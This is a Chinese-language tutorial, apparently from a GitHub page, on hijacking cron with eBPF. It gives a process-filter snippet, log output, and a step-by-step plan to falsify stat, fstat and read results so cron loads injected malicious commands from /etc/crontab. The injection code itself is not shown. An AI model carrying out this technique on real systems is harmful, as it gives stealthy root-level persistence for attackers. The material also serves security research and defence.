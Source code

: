 ## 劫持Cron

``` bash
# 首先确保cron在运行，ps -ef | grep cron
$less /etc/crontab

```

筛选出Cron进程：  
```
SEC("raw_tracepoint/sys_enter")
int raw_tp_sys_enter(struct bpf_raw_tracepoint_args *ctx) {
	char comm[TASK_COMM_LEN] = {0};
	bpf_get_current_comm(&comm, sizeof(comm));
	if (memcmp(comm, TARGET_NAME, sizeof(TARGET_NAME))){
		return 0;
	}
	bpf_log("-------> %s\n", comm);
	return 0;
}
```

这时候看log，可以发现Cron在疯狂的调用系统调用:  
```
$ bash compile.sh
2022/07/11 09:37:30 [LOG]  -----------> cron
2022/07/11 09:37:30 [LOG]  -----------> cron
2022/07/11 09:37:30 [LOG]  -----------> cron
```

### 攻击思路
让cron读到文件变化，去主动读取任务文件。然后我们再覆盖任务文件。  
最简步骤：  
1. cron调用stat检查contab配置目录是否修改。修改stat结果，触发contab目录的配置扫描
2. cron，调用openat打开每个文件，调用fstat检查文件是否变化
3. 在/etc/contab文件打开后，在openat处记录fd
4. 在fstat调用处，检查fd是否为/etc/crontab文件，如果是修改fstat结果，触发contab去读文件
5. 在read_exit处，检查fd是否为/etc/crontab文件，如果是修改read_exit结果，注入恶意命令

```
调用顺序：
1. stat_enter，记录stat_buf_ptr
2. stat_exit，修改stat_buf_ptr。触发fstat。
3. openat_enter，记录当前文件名
4. openat_exit，判断当前文件是否是/etc/crontab文件，如果是的，就记录该文件的fd
5. fstat_enter，根据fd判断是否是/etc/crontab文件，如果是的，就记录fstat_buf_ptr
6. fstat_exit，根据fd判断是否是/etc/crontab文件，如果是的，就修改fstat_buf_ptr。触发read。
5. read_exit，根据fd判断是否是/etc/crontab文件，就在read_exit处注入恶意命令。
```

1. Cron流程  
先利用stat检查SYSCRONTAB目录是否变化，再利用fstat检查每个文件是否变化。  
``` c
// https://github.com/vixie/cron/blob/master/database.c#L67
if (stat(SYSCRONTAB, &syscron_stat) < OK)
	syscron_stat.st_mtim = ts_zero;

// https://github.com/vixie/cron/blob/master/database.c#L92
if (!TEQUAL(syscron_stat.st_mtim, ts_zero))
	process_crontab("root", NULL, SYSCRONTAB, &syscron_stat,
			&new_db, old_db);

if ((crontab_fd = open(tabname, O_RDONLY|O_NONBLOCK|O_NOFOLLOW, 0)) < OK) {
	/* crontab not accessible?
		*/
	log_it(fname, getpid(), "CAN'T OPEN", tabname);
	goto next_crontab;
}

if (fstat(crontab_fd, statbuf) < OK) {
	log_it(fname, getpid(), "FSTAT FAILED", tabname);
	goto next_crontab;
}
```